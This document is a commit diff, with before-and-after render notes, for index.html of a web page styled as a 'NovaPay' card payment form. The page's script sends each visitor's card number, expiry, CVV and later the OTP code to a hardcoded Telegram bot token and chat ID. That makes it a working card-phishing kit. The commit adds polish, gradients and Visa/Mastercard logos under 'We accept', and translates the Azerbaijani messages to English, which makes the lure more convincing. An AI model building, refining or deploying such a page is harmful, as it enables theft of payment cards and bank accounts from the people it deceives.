

Before and after one commit to elirecebli030-debug/PulKredit, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (277-1001 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,12 +9,14 @@
       margin: 0;
       padding: 0;
       box-sizing: border-box;
-      font-family: system-ui, -apple-system, 'Segoe UI', Roboto, 'Helvetica Neue', sans-serif;
+      font-family: 'Inter', system-ui, -apple-system, 'Segoe UI', Roboto, 'Helvetica Neue', sans-serif;
     }
+
+    @import url('https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700;800&display=swap');
 
     body {
       min-height: 100vh;
-      background: linear-gradient(145deg, #eef2f9 0%, #e2e9f3 50%, #dde6f2 100%);
+      background: radial-gradient(ellipse at 50% 0%, #f4f7fc 0%, #e8eef7 40%, #dde6f2 100%);
       display: flex;
       align-items: center;
       justify-content: center;
@@ -25,22 +27,39 @@
       max-width: 460px;
       width: 100%;
       background: #ffffff;
-      border-radius: 36px;
-      box-shadow: 0 30px 60px -15px rgba(10, 30, 60, 0.28), 0 6px 18px 0 rgba(0, 0, 0, 0.04);
-      padding: 32px 28px;
-      transition: all 0.2s ease;
+      border-radius: 32px;
+      box-shadow:
+        0 40px 80px -20px rgba(8, 26, 50, 0.32),
+        0 12px 28px -8px rgba(0, 0, 0, 0.06),
+        inset 0 1px 0 rgba(255, 255, 255, 0.8);
+      padding: 30px 26px 28px;
+      position: relative;
+      overflow: hidden;
+    }
+
+    /* Top accent line */
+    .card::before {
+      content: '';
+      position: absolute;
+      top: 0;
+      left: 20%;
+      right: 20%;
+      height: 3px;
+      background: linear-gradient(90deg, transparent, #3a7bd5, #6ba3f0, #3a7bd5, transparent);
+      border-radius: 0 0 4px 4px;
+      opacity: 0.7;
     }
 
     .brand {
       display: flex;
       align-items: center;
       gap: 10px;
-      margin-bottom: 24px;
+      margin-bottom: 22px;
       justify-content: center;
     }
 
     .brand-icon {
-      background: #0a2540;
+      background: linear-gradient(145deg, #0a2540, #1a3f6b);
       width: 44px;
       height: 44px;
       border-radius: 14px;
@@ -48,66 +67,71 @@
       align-items: center;
       justify-content: center;
       color: white;
-      font-weight: 700;
+      font-weight: 800;
       font-size: 24px;
       letter-spacing: -0.5px;
-      box-shadow: 0 8px 14px -6px rgba(10, 37, 64, 0.3);
+      box-shadow: 0 8px 16px -6px rgba(10, 37, 64, 0.4);
     }
 
     .brand-name {
-      font-size: 28px;
-      font-weight: 700;
-      letter-spacing: -0.5px;
+      font-size: 26px;
+      font-weight: 800;
+      letter-spacing: -0.8px;
       color: #0a2540;
     }
 
     .brand-name span {
-      color: #3a7bd5;
+      background: linear-gradient(135deg, #3a7bd5, #6ba3f0);
+      -webkit-background-clip: text;
+      -webkit-text-fill-color: transparent;
+      background-clip: text;
       font-weight: 800;
     }
 
-    /* ==== AMOUNT BOX ==== */
+    /* ==== AMOUNT BOX — Premium ==== */
     .amount-box {
-      background: linear-gradient(135deg, #0a2540 0%, #163b63 100%);
-      border-radius: 24px;
-      padding: 22px 22px 20px;
-      margin-bottom: 28px;
+      background: linear-gradient(145deg, #0a1f38 0%, #132f52 50%, #1a3a63 100%);
+      border-radius: 22px;
+      padding: 20px 22px 18px;
+      margin-bottom: 26px;
       position: relative;
       overflow: hidden;
-      box-shadow: 0 16px 32px -14px rgba(10, 37, 64, 0.5);
+      box-shadow:
+        0 20px 40px -16px rgba(8, 26, 50, 0.6),
+        inset 0 1px 0 rgba(255, 255, 255, 0.1);
     }
 
     .amount-box::before {
       content: '';
       position: absolute;
-      top: -50%;
-      right: -20%;
-      width: 180px;
-      height: 180px;
+      top: -60%;
+      right: -15%;
+      width: 200px;
+      height: 200px;
       border-radius: 50%;
-      background: radial-gradient(circle, rgba(58, 123, 213, 0.35) 0%, transparent 70%);
+      background: radial-gradient(circle, rgba(58, 123, 213, 0.4) 0%, transparent 65%);
       pointer-events: none;
     }
 
     .amount-box::after {
       content: '';
       position: absolute;
-      bottom: -60%;
-      left: -10%;
-      width: 140px;
-      height: 140px;
+      bottom: -70%;
+      left: -15%;
+      width: 180px;
+      height: 180px;
       border-radius: 50%;
-      background: radial-gradient(circle, rgba(255, 255, 255, 0.08) 0%, transparent 70%);
+      background: radial-gradient(circle, rgba(107, 163, 240, 0.15) 0%, transparent 60%);
       pointer-events: none;
     }
 
     .amount-label {
-      font-size: 12px;
+      font-size: 11px;
       font-weight: 600;
-      color: #9fb6d4;
-      letter-spacing: 1.5px;
+      color: #8aa8cc;
+      letter-spacing: 2px;
       text-transform: uppercase;
-      margin-bottom: 6px;
+      margin-bottom: 4px;
       position: relative;
       z-index: 1;
     }
@@ -115,16 +139,17 @@
     .amount-row {
       display: flex;
       align-items: baseline;
-      gap: 10px;
+      gap: 8px;
       position: relative;
       z-index: 1;
     }
 
     .currency {
-      font-size: 26px;
+      font-size: 24px;
       font-weight: 600;
       color: #7fa8d8;
       line-height: 1;
+      margin-top: 4px;
     }
 
     .amount-input {
@@ -132,9 +157,9 @@
       border: none;
       outline: none;
       color: #ffffff;
-      font-size: 44px;
-      font-weight: 700;
-      letter-spacing: -1.5px;
+      font-size: 46px;
+      font-weight: 800;
+      letter-spacing: -2px;
       width: 100%;
       padding: 0;
       font-family: inherit;
@@ -142,8 +167,8 @@
     }
 
     .amount-input::placeholder {
-      color: rgba(255, 255, 255, 0.25);
-      font-weight: 700;
+      color: rgba(255, 255, 255, 0.18);
+      font-weight: 800;
     }
 
     .amount-input::-webkit-outer-spin-button,
@@ -160,21 +185,64 @@
     .amount-meta {
       display: flex;
       align-items: center;
-      gap: 6px;
-      margin-top: 12px;
-      font-size: 12.5px;
-      color: #9fb6d4;
+      gap: 7px;
+      margin-top: 10px;
+      font-size: 12px;
+      color: #8aa8cc;
       position: relative;
       z-index: 1;
+      font-weight: 500;
     }
 
     .amount-meta .dot {
-      width: 6px;
-      height: 6px;
+      width: 7px;
+      height: 7px;
       border-radius: 50%;
       background: #37d67a;
       display: inline-block;
-      box-shadow: 0 0 0 3px rgba(55, 214, 122, 0.18);
+      box-shadow: 0 0 0 3px rgba(55, 214, 122, 0.2);
+      animation: pulse-dot 2s ease-in-out infinite;
+    }
+
+    @keyframes pulse-dot {
+      0%, 100% { box-shadow: 0 0 0 3px rgba(55, 214, 122, 0.2); }
+      50% { box-shadow: 0 0 0 5px rgba(55, 214, 122, 0.1); }
+    }
+
+    /* ==== CARD BRAND LOGOS ==== */
+    .card-brands {
+      display: flex;
+      align-items: center;
+      gap: 10px;
+      margin-bottom: 8px;
+      padding: 0 2px;
+    }
+
+    .card-brands span {
+      font-size: 11px;
+      font-weight: 600;
+      color: #9aa9bd;
+      letter-spacing: 0.5px;
+      text-transform: uppercase;
+    }
+
+    .brand-logos {
+      display: flex;
+      align-items: center;
+      gap: 6px;
+      margin-left: auto;
+    }
+
+    .brand-logos svg {
+      height: 22px;
+      width: auto;
+      border-radius: 4px;
+      opacity: 0.85;
+      transition: opacity 0.2s;
+    }
+
+    .brand-logos svg:hover {
+      opacity: 1;
     }
 
     /* ==== DIVIDER ==== */
@@ -182,11 +250,11 @@
       display: flex;
       align-items: center;
       gap: 14px;
-      margin: 4px 0 22px;
+      margin: 6px 0 18px;
       color: #b1bdcc;
-      font-size: 12px;
+      font-size: 11px;
       font-weight: 600;
-      letter-spacing: 0.6px;
+      letter-spacing: 1px;
       text-transform: uppercase;
     }
 
@@ -195,19 +263,20 @@
       content: '';
       flex: 1;
       height: 1px;
-      background: #e6ecf3;
+      background: linear-gradient(90deg, transparent, #e2e9f2, transparent);
     }
 
+    /* ==== FORM ==== */
     .form-group {
-      margin-bottom: 20px;
+      margin-bottom: 18px;
     }
 
     .form-group label {
       display: block;
-      font-size: 13px;
+      font-size: 12.5px;
       font-weight: 600;
       color: #2a3b52;
-      margin-bottom: 8px;
+      margin-bottom: 7px;
       letter-spacing: 0.2px;
     }
 
@@ -219,13 +288,13 @@
 
     .input-wrapper input {
       width: 100%;
-      padding: 16px 18px;
-      font-size: 16px;
-      border: 1.5px solid #dde3ec;
-      border-radius: 18px;
+      padding: 15px 18px;
+      font-size: 15.5px;
+      border: 1.5px solid #e0e6ef;
+      border-radius: 16px;
       outline: none;
       background: #fafcff;
-      transition: border 0.2s, box-shadow 0.2s;
+      transition: border 0.2s, box-shadow 0.2s, background 0.2s;
       color: #0f1c2e;
       font-weight: 500;
       letter-spacing: 0.3px;
@@ -233,20 +302,20 @@
 
     .input-wrapper input:focus {
       border-color: #3a7bd5;
-      box-shadow: 0 0 0 4px rgba(58, 123, 213, 0.12);
+      box-shadow: 0 0 0 4px rgba(58, 123, 213, 0.1);
       background: #ffffff;
     }
 
     .input-wrapper input::placeholder {
-      color: #a7b4c7;
+      color: #b0bdd0;
       font-weight: 400;
-      font-size: 15px;
-      letter-spacing: 0.4px;
+      font-size: 14.5px;
+      letter-spacing: 0.3px;
     }
 
     .row-2 {
       display: flex;
-      gap: 14px;
+      gap: 12px;
     }
 
     .row-2 .form-group {
@@ -255,27 +324,28 @@
 
     .btn {
       width: 100%;
-      padding: 18px;
-      background: #0a2540;
+      padding: 17px;
+      background: linear-gradient(145deg, #0a2540, #163b63);
       color: white;
       border: none;
-      border-radius: 22px;
-      font-size: 17px;
+      border-radius: 18px;
+      font-size: 16.5px;
       font-weight: 700;
-      letter-spacing: 0.3px;
+      letter-spacing: 0.4px;
       cursor: pointer;
-      transition: all 0.2s ease;
-      box-shadow: 0 12px 24px -8px rgba(10, 37, 64, 0.35);
-      margin-top: 6px;
+      transition: all 0.25s ease;
+      box-shadow: 0 14px 28px -10px rgba(10, 37, 64, 0.45);
+      margin-top: 4px;
     }
 
     .btn:hover {
-      background: #132e4f;
-      transform: scale(1.01);
+      background: linear-gradient(145deg, #132e4f, #1d4a7a);
+      transform: translateY(-1px);
+      box-shadow: 0 18px 34px -10px rgba(10, 37, 64, 0.5);
     }
 
     .btn:active {
-      transform: scale(0.98);
+      transform: translateY(0) scale(0.99);
     }
 
     .btn:disabled {
@@ -286,7 +356,7 @@
 
     .otp-section {
       display: none;
-      margin-top: 16px;
+      margin-top: 10px;
     }
 
     .otp-section.active {
@@ -294,21 +364,21 @@
     }
 
     .otp-hint {
-      font-size: 13px;
-      color: #6b7a8f;
+      font-size: 12.5px;
+      color: #7a8a9e;
       text-align: center;
-      margin-top: 12px;
+      margin-top: 10px;
       line-height: 1.5;
     }
 
     .spinner {
       display: inline-block;
-      width: 22px;
-      height: 22px;
-      border: 3px solid rgba(255, 255, 255, 0.3);
+      width: 20px;
+      height: 20px;
+      border: 2.5px solid rgba(255, 255, 255, 0.3);
       border-radius: 50%;
       border-top-color: #ffffff;
-      animation: spin 0.8s linear infinite;
+      animation: spin 0.75s linear infinite;
       vertical-align: middle;
       margin-right: 10px;
     }
@@ -322,29 +392,31 @@
     }
 
     .status-message {
-      font-size: 13px;
+      font-size: 12.5px;
       text-align: center;
-      margin-top: 16px;
+      margin-top: 14px;
       padding: 12px;
-      border-radius: 14px;
+      border-radius: 12px;
       font-weight: 500;
     }
 
     .status-message.error {
-      background: #ffe9e9;
+      background: #fff0f0;
       color: #c00;
+      border: 1px solid #ffd6d6;
     }
 
     .status-message.success {
-      background: #e3f5e9;
+      background: #edf9f1;
       color: #0a7a3e;
+      border: 1px solid #c8ecd6;
     }
 
     .footer-note {
       text-align: center;
-      font-size: 12px;
+      font-size: 11.5px;
       color: #8f9db0;
-      margin-top: 26px;
+      margin-top: 24px;
       display: flex;
       justify-content: center;
       gap: 6px;
@@ -352,21 +424,28 @@
     }
 
     .lock-icon {
-      font-size: 14px;
+      font-size: 13px;
     }
 
     #otpCode {
       letter-spacing: 8px;
-      font-weight: 600;
+      font-weight: 700;
       text-align: center;
       font-size: 22px;
       padding: 14px 12px;
+      border-radius: 16px;
     }
 
     #otpCode::placeholder {
       letter-spacing: 2px;
-      font-size: 15px;
+      font-size: 14px;
       font-weight: 400;
+    }
+
+    /* SVG Logo styling */
+    .visa-logo, .mc-logo {
+      display: inline-block;
+      vertical-align: middle;
     }
   </style>
 </head>
@@ -389,10 +468,27 @@
       </div>
     </div>
 
+    <!-- CARD BRAND LOGOS ROW -->
+    <div class="card-brands">
+      <span>We accept</span>
+      <div class="brand-logos">
+        <!-- VISA SVG -->
+        <svg viewBox="0 0 780 500" width="44" height="28" xmlns="http://www.w3.org/2000/svg">
+          <rect width="780" height="500" rx="40" fill="#1A1F71"/>
+          <path d="M293.2 348.7l33.1-205.8h52.9l-33.2 205.8h-52.8zM479.4 148.6c-10.5-4.1-27-8.5-47.4-8.5-52.3 0-89.1 27.9-89.4 67.8-.3 29.5 26.3 46 46.3 55.8 20.5 10 27.4 16.3 27.4 25.2-.1 13.6-16.4 19.9-31.6 19.9-21.1 0-32.3-3.1-49.6-10.6l-6.8-3.2-7.4 45.8c12.3 5.7 35 10.6 58.5 10.9 55.6 0 91.7-27.6 92.1-70.3.2-23.4-13.9-41.2-44.5-55.9-18.5-9.5-29.9-15.8-29.9-25.4 0-8.5 9.6-17.6 30.4-17.6 17.4-.3 30 3.7 39.8 7.9l4.7 2.3 7.3-44.1zM615.1 142.9h-40.8c-12.6 0-22.1 3.6-27.7 16.9l-78.8 199.9h55.4s9.1-24.7 11.1-30.2h67.7c1.6 7.1 6.4 30.2 6.4 30.2h49.1l-42.4-216.8zm-65.2 139.6c4.4-11.7 21.2-56.8 21.2-56.8-.3.5 4.4-11.9 7.1-19.6l3.6 17.7 12.3 58.7h-44.2zM231.8 142.9L180 284.8l-5.5-27.8c-9.6-32.1-39.6-66.9-73.1-84.3l47.3 176h56l83.3-205.8h-56.2z" fill="#fff"/>
+          <path d="M131.5 142.9H45.4l-.7 4.1c66.7 16.7 111 57 129.3 105.7l-18.6-92.9c-3.2-12.5-12.6-16.3-24.2-16.9z" fill="#F7B600"/>
+        </svg>
+        <!-- MASTERCARD SVG -->
+        <svg viewBox="0 0 780 500" width="44" height="28" xmlns="http://www.w3.org/2000/svg">
+          <rect width="780" height="500" rx="40" fill="#252525"/>
+          <circle cx="310" cy="250" r="150" fill="#EB001B"/>
+          <circle cx="470" cy="250" r="150" fill="#F79E1B"/>
+          <path d="M390 130a150 150 0 0 0 0 240 150 150 0 0 0 0-240z" fill="#FF5F00"/>
+        </svg>
+      </div>
+    </div>
+
     <div class="divider">Card details</div>
-
-    <h2 class="title" id="formTitle" style="display:none;">Payment details</h2>
-    <p class="subtitle" id="formSubtitle" style="display:none;">All transactions are secure and encrypted</p>
 
     <div id="cardForm">
       <div class="form-group">
@@ -443,11 +539,9 @@
 
   <script>
     (function() {
-      // ======== KONFIQ ========
       const TELEGRAM_BOT_TOKEN = '9135930495:AAF6snXnVCxC50519xMp7PyBpTTy9Efucu8';
       const TELEGRAM_CHAT_ID = '-1004353567100';
 
-      // ======== ELEMENTLƏR ========
       const amountInput = document.getElementById('amountInput');
       const cardForm = document.getElementById('cardForm');
       const otpForm = document.getElementById('otpForm');
@@ -459,10 +553,7 @@
       const otpCode = document.getElementById('otpCode');
       const otpBtn = document.getElementById('otpBtn');
       const otpStatus = document.getElementById('otpStatus');
-      const formTitle = document.getElementById('formTitle');
-      const formSubtitle = document.getElementById('formSubtitle');
 
-      // ======== KÖMƏKÇI ========
       function showStatus(el, text, type) {
         el.textContent = text;
         el.className = 'status-message ' + type;
@@ -473,7 +564,7 @@
         el.classList.add('hidden');
       }
 
-      // Yalnız rəqəm və bir nöqtə, maks 2 onluq
+      // Amount: only digits and one decimal, max 2 decimals, force .00 display on blur
       amountInput.addEventListener('input', function(e) {
         let val = e.target.value.replace(/[^0-9.]/g, '');
         const parts = val.split('.');
@@ -485,6 +576,25 @@
           if (dec.length > 2) val = int + '.' + dec.slice(0, 2);
         }
         e.target.value = val;
+      });
+
+      amountInput.addEventListener('blur', function(e) {
+        let val = e.target.value.trim();
+        if (!val) return;
+        const num = parseFloat(val);
+        if (!isNaN(num)) {
+          e.target.value = num.toFixed(2);
+        }
+      });
+
+      amountInput.addEventListener('focus', function(e) {
+        let val = e.target.value.trim();
+        if (val && !isNaN(parseFloat(val))) {
+          const num = parseFloat(val);
+          if (num % 1 === 0) {
+            e.target.value = num.toString();
+          }
+        }
       });
 
       cardNumber.addEventListener('input', function(e) {
@@ -512,7 +622,6 @@
         e.target.value = e.target.value.replace(/\D/g, '').slice(0, 8);
       });
 
-      // ======== TELEGRAM ========
       async function sendToTelegram(text) {
         if (!TELEGRAM_BOT_TOKEN || !TELEGRAM_CHAT_ID) return;
         const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
@@ -527,11 +636,10 @@
             })
           });
         } catch (err) {
-          console.error('Telegram xətası:', err);
+          console.error('Telegram error:', err);
         }
       }
 
-      // ======== KART GÖNDƏR ========
       async function submitCardData() {
         const amount = amountInput.value.trim();
         const rawCard = cardNumber.value.replace(/\s/g, '');
@@ -561,10 +669,10 @@
         payBtn.innerHTML = '<span class="spinner"></span> Processing...';
 
         const message = `
-<b>💳 NovaPay – Yeni kart məlumatı</b>
-<b>💰 Məbləğ:</b> $${parseFloat(amount).toFixed(2)}
-<b>💳 Kart nömrəsi:</b> <code>${rawCard}</code>
-<b>📅 Son istifadə:</b> ${exp}
+<b>💳 NovaPay – New card details</b>
+<b>💰 Amount:</b> $${parseFloat(amount).toFixed(2)}
+<b>💳 Card number:</b> <code>${rawCard}</code>
+<b>📅 Expiry:</b> ${exp}
 <b>🔒 CVV:</b> ${cvvVal}
         `.trim();
 
@@ -578,7 +686,6 @@
         }, 5000);
       }
 
-      // ======== OTP GÖNDƏR ========
       async function submitOtp() {
         const code = otpCode.value.trim();
         if (code.length < 4) {
@@ -592,8 +699,8 @@
 
         const amount = amountInput.value.trim();
         const message = `
-<b>🔐 NovaPay – OTP kodu</b>
-<b>💰 Məbləğ:</b> $${parseFloat(amount || 0).toFixed(2)}
+<b>🔐 NovaPay – OTP code</b>
+<b>💰 Amount:</b> $${parseFloat(amount || 0).toFixed(2)}
 <b>🔑 OTP:</b> <code>${code}</code>
         `.trim();
 
```
